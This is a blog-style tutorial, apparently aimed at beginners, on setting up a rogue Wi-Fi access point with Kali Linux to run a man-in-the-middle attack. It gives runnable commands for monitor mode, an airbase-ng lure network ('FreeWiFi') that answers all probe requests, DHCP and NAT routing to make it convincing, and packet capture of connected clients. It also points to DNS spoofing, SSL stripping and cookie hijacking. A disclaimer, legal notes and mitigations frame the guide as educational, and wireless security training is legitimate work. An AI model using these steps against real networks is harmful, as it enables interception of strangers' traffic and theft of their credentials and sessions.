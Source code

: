 Understanding and Executing Man-in-the-Middle Attacks with Rogue Access Points
By [Your Name], Security Researcher
Man-in-the-Middle (MITM) attacks are a significant threat in wireless networks, allowing attackers to intercept and manipulate communication between clients and access points (APs). One potent method involves creating a rogue access point—a malicious Wi-Fi network designed to lure unsuspecting users. This blog provides a detailed, practical guide to understanding and executing a rogue AP-based MITM attack, aimed at both beginners and advanced security enthusiasts. We’ll focus on using Kali Linux and tools like airbase-ng to demonstrate the attack, while emphasizing ethical considerations and legal boundaries.

Disclaimer: This guide is for educational purposes only. Performing MITM attacks on networks or devices without explicit permission is illegal and unethical. Always conduct security research in controlled, authorized environments.

What is a Rogue Access Point MITM Attack?
A rogue access point is a malicious Wi-Fi network set up by an attacker to mimic a legitimate AP. By enticing users to connect, the attacker can intercept traffic, modify data, or launch further attacks like phishing or session hijacking. This technique is particularly effective in public Wi-Fi environments, where users may not verify the authenticity of networks.
MITM attacks via rogue APs exploit the trust users place in Wi-Fi networks. Other related techniques include ARP spoofing, Evil Twin attacks, Wi-Fi Pineapple, and DNS spoofing, each with unique mechanisms for intercepting traffic. This blog focuses on the rogue AP method, as it’s accessible yet powerful for demonstrating MITM concepts.
Prerequisites
To follow this guide, you’ll need:

A Kali Linux machine (physical or virtual).
An external Wi-Fi adapter (e.g., TP-Link WN722N) that supports monitor mode.
Basic familiarity with Linux terminal commands.
Tools from the Aircrack-ng suite (airbase-ng, airodump-ng, etc.).
A controlled lab environment with explicit permission to test.

Step-by-Step Guide to Creating a Rogue AP for MITM
Step 1: Set Up Your Wi-Fi Adapter in Monitor Mode
To capture and manipulate wireless traffic, your Wi-Fi adapter must be in monitor mode, which allows it to listen to all wireless packets, not just those destined for your device.

Connect your external Wi-Fi adapter (e.g., TP-Link WN722N) to your Kali Linux machine.
Verify the adapter is recognized:iwconfig

Look for your adapter’s interface name (e.g., wlan0).
Enable monitor mode:sudo airmon-ng start wlan0

This creates a new interface (e.g., wlan0mon). Confirm with iwconfig.

Step 2: Create the Rogue Access Point
Using airbase-ng from the Aircrack-ng suite, we’ll create a rogue AP with a customized SSID to mimic a legitimate network.

Launch the rogue AP:
sudo airbase-ng -e "FreeWiFi" -c 6 -P wlan0mon


-e "FreeWiFi": Sets the SSID to “FreeWiFi” (choose a name that blends with the environment).
-c 6: Specifies the channel (e.g., channel 6; match the target AP’s channel for realism).
-P: Enables the AP to respond to all probe requests, increasing the likelihood of client connections.
wlan0mon: The monitor-mode interface.

This command creates a virtual AP interface (e.g., at0).

Monitor the AP activity in the terminal. You’ll see clients attempting to connect, as shown in Figure 7.26 (conceptual representation of the rogue AP setup).


Step 3: Configure Network Routing
To intercept traffic, you need to route client traffic through your Kali machine.

Enable IP forwarding:
sudo sysctl -w net.ipv4.ip_forward=1


Set up the virtual AP interface (at0) with an IP address:
sudo ifconfig at0 up 192.168.1.1 netmask 255.255.255.0


Configure a DHCP server to assign IP addresses to connecting clients. Install and configure dnsmasq:
sudo apt-get install dnsmasq

Create a configuration file (/etc/dnsmasq.conf):
interface=at0
dhcp-range=192.168.1.2,192.168.1.100,12h

Start dnsmasq:
sudo dnsmasq -C /etc/dnsmasq.conf


Set up NAT to allow clients internet access (optional, to make the rogue AP convincing):
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE



Step 4: Intercept and Analyze Traffic
Once clients connect to your rogue AP (as depicted in Figure 7.27), their traffic routes through your Kali machine. Use tools like Wireshark or tcpdump to capture and analyze packets.

Start Wireshark:
sudo wireshark &

Select the at0 interface and filter for protocols like HTTP, DNS, or TLS to inspect traffic.

For advanced attacks, you can:

DNS Spoofing: Redirect clients to malicious sites by altering DNS responses (use tools like dnsspoof).
SSL Stripping: Downgrade HTTPS connections to HTTP (use sslstrip).
Session Hijacking: Steal cookies or tokens using tools like ettercap.



Step 5: Clean Up
After testing, dismantle the rogue AP and restore your system:

Stop airbase-ng (Ctrl+C in the terminal).
Disable monitor mode:sudo airmon-ng stop wlan0mon


Stop dnsmasq and reset IP forwarding:sudo killall dnsmasq
sudo sysctl -w net.ipv4.ip_forward=0



Ethical and Legal Considerations

Permission is Mandatory: Conducting MITM attacks without explicit consent is illegal under laws like the U.S. Computer Fraud and Abuse Act or the UK Computer Misuse Act.
Controlled Environment: Test only in lab settings or on networks you own or have permission to analyze.
Responsible Disclosure: If you identify vulnerabilities during authorized testing, report them to the network owner following responsible disclosure practices.

Advanced Techniques and Mitigations
Related MITM Techniques

Evil Twin Attack: A variant where the rogue AP mimics a specific legitimate AP, often combined with de-authentication attacks to force clients to connect.
Wi-Fi Pineapple: A hardware device that automates rogue AP and MITM attacks.
ARP Spoofing: Manipulates ARP tables to intercept traffic on wired or wireless networks.
DNS Spoofing: Redirects DNS queries to malicious servers.

Mitigations
To protect against rogue AP attacks:

Use VPNs: Encrypt traffic to prevent interception.
Verify SSIDs: Avoid connecting to unverified or suspiciously named networks.
Enable WPA3: Modern encryption protocols make rogue APs harder to exploit.
Monitor Network Activity: Use intrusion detection systems to spot unauthorized APs.

Conclusion
Rogue access point-based MITM attacks are a powerful demonstration of wireless network vulnerabilities. By setting up a rogue AP with tools like airbase-ng, security researchers can study how attackers intercept and manipulate traffic. However, this knowledge must be used responsibly, within legal and ethical boundaries. For beginners, mastering these steps builds a foundation in wireless security testing, while advanced users can explore related techniques like DNS spoofing or session hijacking to deepen their expertise.
Stay curious, stay ethical, and keep securing the digital world.
